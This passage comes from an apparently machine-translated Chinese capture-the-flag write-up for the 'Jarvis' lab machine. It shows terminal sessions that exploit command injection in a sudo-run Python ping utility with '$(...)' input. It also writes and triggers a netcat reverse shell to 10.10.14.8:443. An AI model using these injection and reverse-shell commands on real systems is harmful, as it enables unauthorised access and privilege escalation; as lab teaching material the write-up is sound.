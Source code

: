     www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _                       
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/ 
                                    @ironhackers.es
                                    
    ***********************************************
    
    Enter an IP: 10.10.14.$(echo 8)
    PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
    64 bytes from 10.10.14.8: icmp_seq=1 ttl=63 time=29.5 ms
    64 bytes from 10.10.14.8: icmp_seq=2 ttl=63 time=31.0 ms
    64 bytes from 10.10.14.8: icmp_seq=3 ttl=63 time=85.5 ms
    64 bytes from 10.10.14.8: icmp_seq=4 ttl=63 time=107 ms
    64 bytes from 10.10.14.8: icmp_seq=5 ttl=63 time=129 ms
    ^C
    --- 10.10.14.8 ping statistics ---
    5 packets transmitted, 5 received, 0% packet loss, time 4006ms
    rtt min/avg/max/mdev = 29.554/76.642/129.727/40.347 ms
    

我的返回 8 和我的 ping 到 10.10.14.8 工作。`$(echo 8)`

### 反壳

我所知道的任何反向 shell 都不能在没有至少一个这些字符的情况下运行，但我可以将我想要运行的内容写入文件，然后调用该文件。

    www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443'
    #!/bin/bash
    
    nc -e /bin/bash 10.10.14.8 443
    www-data@jarvis:/tmp$
    www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443' > /tmp/d.sh
    www-data@jarvis:/tmp$ chmod +x /tmp/d.sh
    www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/
                                    @ironhackers.es
    
    ***********************************************
    
    Enter an IP: $(/tmp/d.sh)
    